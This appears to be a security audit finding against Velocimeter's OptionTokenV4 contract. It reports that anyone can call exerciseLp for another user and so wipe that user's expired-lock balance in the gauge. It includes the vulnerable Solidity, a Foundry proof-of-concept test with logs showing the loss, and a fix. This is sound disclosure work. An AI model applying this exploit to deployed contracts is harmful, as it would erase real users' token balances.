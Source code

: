 Lucky Peanut Dragon

High

# Users can lose their tokens in the gauge

## Summary

## Vulnerability Detail
The exerciseLp function creates LP tokens, and after that, it stakes in gauges with the depositWithLock function.

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/OptionTokenV4.sol#L652-L716
```solidity
// Create Lp for users
        _safeApprove(underlyingToken, router, _amount);
        _safeApprove(paymentToken, router, paymentAmountToAddLiquidity);
        (, , lpAmount) = IRouter(router).addLiquidity(
            underlyingToken,
            paymentToken,
            false,
            _amount,
            paymentAmountToAddLiquidity,
            1,
            1,
            address(this),
            block.timestamp
        ); 

        // Stake the LP in the gauge with lock
        address _gauge = gauge;
        _safeApprove(address(pair), _gauge, lpAmount);
        IGaugeV4(_gauge).depositWithLock(
            _recipient,
            lpAmount,
            getLockDurationForLpDiscount(_discount)
        ); 
```

The depositWithLock function deposits tokens and creates a lock. If the current lock has expired, it deletes it before locking again.

```solidity
if(block.timestamp >= lockEnd[account]) { // if the current lock is expired relased the tokens from that lock before loking again
            delete lockEnd[account];
            delete balanceWithLock[account];
        }
```

The problem is that anyone can call exerciseLp for anyone, which means anyone can create a lock for any user. If an attacker uses the exercisesLp function for a user whose lock has expired, that user's balance will be deleted even if the user didn't withdraw his tokens.
## Impact
Users can lose their tokens.
## Code Snippet
OptionTokenV4.t.sol


```solidity
function testExerciseLpV4() public {
        vm.startPrank(address(owner));
        DAI.approve(address(oFlowV4), TOKEN_100K);
        FLOW.approve(address(oFlowV4), TOKEN_100K);
        // mint Option token to owner 2
        oFlowV4.mint(address(owner2), TOKEN_100);
        oFlowV4.mint(address(owner), TOKEN_100);

        washTrades();
        vm.stopPrank();

        vm.startPrank(address(owner2));
        DAI.approve(address(oFlowV4), TOKEN_100K);

        oFlowV4.exerciseLp(
            100e18,
            100e18,
            address(owner2),
            20,
            block.timestamp
        );
        vm.stopPrank();

        uint expired = gauge.lockEnd(address(owner2));
        console.log("Before : ", gauge.balanceWithLock(address(owner2)));

        vm.warp(expired);

        vm.startPrank(address(owner));
        oFlowV4.exerciseLp(1e18, 1e18, address(owner2), 20, block.timestamp);

        console.log("After : ", gauge.balanceWithLock(address(owner2)));
    }
```

```bash
Logs:
  Before :  100000000099372902838
  After :  1000000000993729027
```
Even if the owner2 has a balance of 100e18, due to the attacker, it is now 1e18.

## Tool used

Manual Review

## Recommendation
Do not allow users to use the exerciseLp function to deposit for another user.